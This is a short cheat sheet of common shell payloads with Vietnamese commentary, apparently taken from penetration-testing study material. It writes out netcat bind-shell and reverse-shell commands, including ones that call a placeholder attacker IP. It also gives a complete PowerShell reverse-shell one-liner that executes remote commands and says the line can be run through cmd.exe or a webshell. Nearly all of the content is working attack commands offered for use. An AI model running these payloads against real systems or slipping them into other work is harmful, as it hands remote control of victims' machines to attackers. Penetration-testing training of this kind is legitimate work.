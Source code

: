 # Common Shell Payloads

## Bind shell

Client: 

```jsx
nc -lvnp <PORT> -e /bin/bash
```

```jsx
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Attacker: 

```jsx
nc <VICTIM-IP> <PORT>
```

## Reverse Shell

Attacker:

```jsx
nc -lvnp <PORT>
```

Client:

```jsx
nc <ATTACKER-IP> <PORT> -e /bin/bash
```

```jsx
mkfifo /tmp/f; nc <ATTACKER-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Khi nhắm mục tiêu vào một máy chủ **Windows hiện đại**, rất phổ biến là cần một reverse shell PowerShell, vì vậy chúng ta sẽ đề cập đến một lệnh PSH reverse shell đơn giản ở đây.

Lệnh này rất phức tạp, vì vậy để đơn giản hóa, nó sẽ không được giải thích chi tiết ở đây. Tuy nhiên, đây là một lệnh rất hữu ích mà bạn nên lưu giữ:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

Để sử dụng lệnh này, bạn cần thay thế "<IP>" và "<port>" bằng một IP và cổng thích hợp. Sau đó, lệnh có thể được sao chép vào một cmd.exe shell (hoặc một phương pháp khác để thực thi lệnh trên máy chủ Windows, chẳng hạn như một webshell) và thực thi, kết quả là một reverse shell.

